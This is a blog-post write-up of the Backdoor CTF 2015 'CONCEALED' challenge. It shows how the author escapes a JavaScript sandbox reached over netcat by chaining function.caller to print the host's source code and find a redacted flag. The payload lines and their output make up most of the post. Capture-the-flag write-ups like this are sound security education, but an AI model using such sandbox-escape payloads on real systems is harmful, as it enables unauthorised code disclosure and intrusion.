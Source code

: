 ```yaml
---
layout: post
title: "Backdoor CTF 2015 - CONCEALED Writeup"
date: 2015-04-03 02:33:31 +0430
comments: true
categories: ctf backdoor exploit javascript sandbox
---
```


**Backdoor 2015 CONCEALED Writeup**  
**Point = 150**  
**Category = Exploit**  

> All paths have been concealed. Get the hidden flag: nc hack.bckdr.in 8005. Submit sha-256 of the flag

```
$ nc hack.bckdr.in 8005
######################################
####           CONCEAL            ####
######################################

Welcome to CONCEAL
You have access to object named sandboxed and its functions 
Rest everything is sandboxed, don't be a jerk and break something
Wrap your code in a function and return what you want as output
Flag is hidden somewhere in the code. 
Get the flag :D!

home@jail:$ 

```

First of all as banner says we should use all our payload as a function like :
<!--more-->
```
home@jail:$ function exploit() { return "GeeksSpeak"; }
GeeksSpeak
home@jail:$ 
```

After some diging into the the challenge, trying to break the jail and so on, reading banner carefully indicates that the flag is in the code so i should read codes but how?

In javascript we can use arguments.caller to see which function calls our current function so i made up an example and tested it:

```
home@jail:$ function exploit() { return exploit.caller.toString(); }
function () {return (function exploit() { return exploit.caller.toString(); })()}
home@jail:$ function exploit() { return (exploit.caller).caller.toString(); }
function () {
        if (!(this instanceof Script)) {
          throw new TypeError('invalid call to ' + f);
        }
        return ns[f].apply(ns, arguments);
      }
home@jail:$ 

```

this proved my idea, so i used caller repeatedly and finally got the flag as bellow:

```
home@jail:$ function exploit() { return ((((((((exploit.caller).caller).caller).caller).caller).caller).caller).caller).caller.toString(); }
function (err, line) {

    // flag : [redacted]

    if (err && wait === false) {
      return callback(err);
    }

    var against = {},
        numericInput,
        isValid;

    if (line !== '') {
      if (schema.properties[propName]) 
      [..stripped..]
```

and sha256 of the `[redacted]` gives us another 150pts.

HAMIDx9
